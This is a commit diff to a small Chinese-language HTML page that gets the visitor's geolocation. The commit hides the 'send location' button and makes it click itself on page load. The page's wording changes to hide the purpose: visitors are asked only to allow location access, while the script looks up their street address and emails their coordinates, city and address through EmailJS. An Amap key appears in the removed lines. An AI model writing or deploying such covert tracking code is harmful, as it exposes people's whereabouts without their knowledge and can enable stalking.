

Before and after one commit to moyu383/location-page, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,15 +1,15 @@
 <!DOCTYPE html>
 <html lang="zh">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title>位置上报</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1" />
+  <title>位置获取中...</title>
 
   <!-- EmailJS SDK -->
   <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
   <script>
-    (function() {
-      emailjs.init("user_你的EmailJS_PublicKey"); // ✅ 替换这里
+    (function () {
+      emailjs.init("user_你的EmailJS_PublicKey"); // ← 替换为你的 EmailJS 公钥
     })();
   </script>
 
@@ -22,32 +22,30 @@
     h1 {
       color: #333;
     }
-    button {
-      padding: 12px 24px;
-      font-size: 16px;
-      background-color: #4CAF50;
-      color: white;
-      border: none;
-      border-radius: 8px;
-      cursor: pointer;
-    }
     #output {
       margin-top: 20px;
       font-size: 16px;
       white-space: pre-wrap;
     }
+    #getBtn {
+      display: none;
+    }
   </style>
 </head>
-<body>
-  <h1>位置授权与上报</h1>
-  <p>点击按钮授权并发送您当前位置到邮箱</p>
-  <button onclick="getLocation()">获取并发送位置</button>
-  <div id="output">等待中...</div>
+
+<body onload="document.getElementById('getBtn').click()">
+  <h1>正在获取您的位置信息...</h1>
+  <p>请允许浏览器获取您的地理位置</p>
+
+  <!-- 隐藏按钮自动点击 -->
+  <button id="getBtn" onclick="getLocation()">获取并发送位置</button>
+
+  <div id="output">正在定位中，请稍候...</div>
 
   <script>
     async function getLocation() {
       const output = document.getElementById("output");
-      output.innerText = "正在获取位置...";
+      output.innerText = "📍 正在请求地理位置权限...";
 
       if (!navigator.geolocation) {
         output.innerText = "❌ 当前浏览器不支持定位功能";
@@ -57,10 +55,10 @@
       navigator.geolocation.getCurrentPosition(async (position) => {
         const lat = position.coords.latitude.toFixed(6);
         const lon = position.coords.longitude.toFixed(6);
-        output.innerText = `✅ 已获取坐标：\n纬度: ${lat}\n经度: ${lon}`;
+        output.innerText = `✅ 坐标已获取：\n纬度: ${lat}\n经度: ${lon}`;
 
-        // 🔍 逆地理编码：使用高德地图 API
-        const amapKey = "a6afcdeff7089690badc696e6584eade"; // ✅ 替换这里
+        // 高德地图 API 获取详细地址
+        const amapKey = "你的高德地图APIKey"; // ← 替换为你的高德 Key
         const apiUrl = `https://restapi.amap.com/v3/geocode/regeo?location=${lon},${lat}&key=${amapKey}&output=json`;
 
         try {
@@ -72,9 +70,8 @@
             const city = data.regeocode.addressComponent.city || data.regeocode.addressComponent.province;
             const now = new Date().toLocaleString();
 
-            output.innerText += `\n📍 城市：${city}\n🏢 地址：${address}`;
+            output.innerText += `\n📌 城市：${city}\n🏢 地址：${address}`;
 
-            // ✉️ 邮件发送参数
             const templateParams = {
               latitude: lat,
               longitude: lon,
@@ -83,20 +80,20 @@
               datetime: now
             };
 
-            // 📬 调用 EmailJS 发送邮件
             emailjs.send("service_你的ServiceID", "template_你的TemplateID", templateParams)
               .then(() => {
-                output.innerText += "\n✅ 位置信息已发送到邮箱";
+                output.innerText += "\n📬 位置信息已发送到您的邮箱 ✅";
               }, (error) => {
                 output.innerText += "\n❌ 邮件发送失败：" + error.text;
               });
+
           } else {
             output.innerText += "\n❌ 地址解析失败";
           }
 
         } catch (e) {
-          console.error("API调用出错：", e);
-          output.innerText += "\n❌ 发生错误：" + e.message;
+          console.error("调用错误：", e);
+          output.innerText += "\n❌ 请求失败：" + e.message;
         }
 
       }, (error) => {
```
